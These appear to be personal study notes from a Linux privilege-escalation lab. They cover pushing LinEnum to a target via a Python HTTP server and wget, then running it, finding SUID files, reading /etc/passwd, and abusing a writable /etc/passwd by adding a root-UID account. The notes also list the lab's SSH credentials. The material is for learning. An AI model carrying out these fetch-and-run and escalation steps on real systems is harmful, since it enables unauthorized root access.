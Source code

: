 Common Linux Privesc
####################
:Author: David Boyd
:Date: 2020-06-02
:SSH User: user3
:SSH Password: password

[Task 4] Enumeration
====================

LinEnum
	a bash script that perfoms common commands related to privilege escalation.

	Saves time (allowing more effort to be put toward getting root).

Get LinEnum
-----------

curl -O https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

	- -O, --remote-name

		-O'riginal'-rem'O'te-name.  Writes output to a local file with the same
		name as the original remote name.

Push LinEnum on TM (Target Machine)
-----------------------------------

Steps
~~~~~

1.	Setup Python server on your machine
2.	from TM (target machine), wget your.Machine.IP.addr:port/file.sh
3.	from TM, chmod +x file.sh && run file.sh

Python3
~~~~~~~

http.server    (import http.server)
	this module defines classes for implementing HTTP servers (Web servers).

	-m

Issues
~~~~~~
:Issue: Python2 code is deprecated.
:Tricks: Use the **2to3** utility to convert Python2 prgms to Python3.
:Solution: The *SimpleHTTPServer* module has been merged into the
           *http.server* in Python 3.0

.. code-block:: Python

	python3 -m http.server 8000

	python -m SimpleHTTPServer 8000

The http.server is invoked directly using the *-m* switch of the interpreter
with a port number argument.  **This serves files relative to the currect
directory.**  // Think: -m = "main directory"

Sandbox
~~~~~~~

.. image:: ./http.server_python3_file-xfer.png

.. code-block:: Python

	# My machine
	python3 -m http.server 8000

	# TM
	wget my.ip.addr.ess:8000/LinEnum.sh
	chmod +x LinEnum.sh
	./LinEnum.sh


Questions
---------
:Notes: https://regexone.com for grep refresher
:grep: {m} = matching repreated characters

.. code-block:: Bash

	# What is the target's hostname?
	hostname

	# Look at the output of /etc/passwd,
	# how many "user[x]" are there on the system?
	### Method 1
	cat /etc/passwd | grep .user.
	### Method 2
	cat /etc/passwd | grep user[0-9] | cut -d ':' -f1

	# How many available shells are there on the system?
	cat -n /etc/shells

	# What critical file has had it permissions changed to allow some users to
	# write to it?
	### > critical files include /etc/, /var/
	### > permissions change would typically include user groups' changes
	ls -l | grep -E "\-[rwx-]{4}w]"

[Task 5] Abusing SUID/SGID Files
================================
:rwx-: read, write, execute, NO permissions
:--s--S--t: SUID w/ execution, SUID w/o exec, sTicky bit
:NOTE: GUID/SGID are used interchangably.

.. image:: ./special-permissions.png

First step in privilege escalation exploitation is to check for files with
SUID/SGID bit set.  This means that the file(s) can be run with the permissions
of the file(s) owner/group.

SUID
----
:SUID: https://linuxhandbook.com/suid-sgid-sticky/
:s: stands for 'Set'
:SUID: SetUID

SUID (Set User ID) binary
	a special type of file permission given to a file (everything in Linux is a
	file!).  Normally in Linux/UNIX when a program runs, it inherit's access
	permissions from the logged in user.  SUID is defined as *giving temporary
	permissions to a user to run a program/file with the permissions of the
	file owner, rather than that of the user who runs it.* In simple words,
	**users will get owner's permsissions as well as owner UID and GID when
	executing a file/program/command**.

:SUID with execute permissions: -rws------
:SUID without execute permissions: -rwS------
:Change SUID execute permissions: chmod u+[sS] filename

SGID (Set Group ID)
	any user executing the file will have the same permissions as the *group
	owner* of the file.

:SGID with execute permissions: ----rws---
:SGID without execute permissions: ----rwS---
:Change SGID execute permissions: chmod g+[sS] filename
:Example: ls -l /var/local
:Practical Usage: Samba server for sharing files on local netw.

Where is SUID used?
~~~~~~~~~~~~~~~~~~~

	1.	Where root login is required to execute some cmds/prgms/scripts.
	2.	Where you don't want to give credentials of a particular user, but want
	    to run some prgms as the owner.
	3.	Where you don't want to use 'sudo' cmd, but want to give execute
	    permission for a file/script.

SUID/SGID/sTicky bit for a file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: Bash

	###
	### Setup
	###
	# method 1
	chmod u+s file.name (SUID)
	chmod g+s file.name (SGID)
	chmod +t dir.name   (sTicky bit)

	# method 2
	chmod 4nnn file.name    # where nnn is [0-7] respectively.

	###
	### Remove
	###
	# method 1
	chmod u-s file.name
	chmod g-s file.name
	chmod -t dir.name   (sTicky bit)

	# method 2
	chmod 0nnn file.name    # where nnn is [0-7] respectively.
	chmod 0nnn file.name    # SGID is the same as SUID to rm
	chmod 0nnn file.name    # sTicky bit is the same as SUID to rm

	###
	### Find SUID/SGID files
	###
	find / -perm /4000      # SUID
	find / -perm /2000      # SGID
	find / -perm /1000      # sTicky bit
	# [THM] method
	find / -perm -u=s -type f 2>/dev/null

Bonus
~~~~~
:d--------t: sTicky bit
:T/t: sTick bit ONLY, sticky bit +x

Sticky Bit
	only file owner(s) can mv/rm dir/files within a directory.  **Sticky bits
	only works with DIRECTORIES!!!**

Questions
---------

.. code-block:: Bash

	#1 What is the path of the file in user3's directory that stands out to
	# you?
	ls
	ls -al
	# find doesn't show s/g/
	find ./ -perm /4000
	find / -perm /4000 2>/dev/null
	find / -perm /4000 -o -perm /2000 -o -perm /1000 2>/dev/null

	# We know that "shell" is a SUID bit file, therefore running it will run
	# the script as a root user!  Lets run it!  We can do this by running:
	# "./shell"
	<no answer needed>

	# Congratulations!  You should now have a shell as root user, well done!
	<wtf?>

[Task 6] Exploiting Writeable /etc/passwd
=========================================

/etc/passwd
	a *plain text file* that contains a list of **system's accounts (user ID,
	group ID, home directory, shell, and more)**.  Useful to map user IDs to
	user names.  Write access is limited to superuser/root account.


IF (non-root user has write access) {
	VULNERABILITY;
	vulnerability {
		adduser root2;  // root user that we can access
	}
}

Understanding /etc/passwd format
--------------------------------
:Overview: One 'user acc' per line; separated by ':'; total 7 fields.

|---+----------------+---------------------------------------------------------|
| # | Field Name     | Field Description                                       |
|---+----------------+---------------------------------------------------------|
| 1 | Username       | Used when user logs in (1-32 chars)                     |
|---+----------------+---------------------------------------------------------|
| 2 | Password       | x = encrypted > stored in /etc/shadow                   |
|   |                | **CMD:passwd - compute/update/store hash of password**  |
|   |                | **in /etc/shadow file; password hash is stored as 'x'** |
|---+----------------+---------------------------------------------------------|
| 3 | UID (User ID)  | Each user is assigned a UID.                            |
|   |                | 0=root;                                                 |
|   |                | 1-99=predefined accts;                                  |
|   |                | 100-999=admin&sysAccts/groups                           |
|---+----------------+---------------------------------------------------------|
| 4 | GID (Group ID) | The primary group ID > stored in /etc/group             |
|---+----------------+---------------------------------------------------------|
| 5 | User ID Info   | Comment field.  Add extra info about user:              |
|   |                | full name, phone number, etc.                           |
|   |                | **Cmd:finger**                                          |
|---+----------------+---------------------------------------------------------|
| 6 | Home Directory | Absolute path to the dir the user will be in when they  |
|   |                | log in.  If != exist; then dir = /                      |
|---+----------------+---------------------------------------------------------|
| 7 | Command/Shell  | Absolute path of a command/shell (/bin/bash)            |
|   |                | Usu. a 'shell'; but doesn't have to be a shell.         |
|---+----------------+---------------------------------------------------------|


Example
~~~~~~~

|-------------+-------------+--------+--------+-----------------+-------------+--------------|
| 1. Username | 2. Password | 3. UID | 4. GID | 5. User ID Info | 6. Home Dir | 7. Cmd/Shell |
|-------------+-------------+--------+--------+-----------------+-------------+--------------|
| test:       | x:          | 0:     | 0:     | root:           | /root:      | /bin/bash    |
|-------------+-------------+--------+--------+-----------------+-------------+--------------|

How to exploit a writeable /etc/passwd
--------------------------------------

If (have writeable /etc/passwd file) {
	adduser with root UID, GID, etc;
}



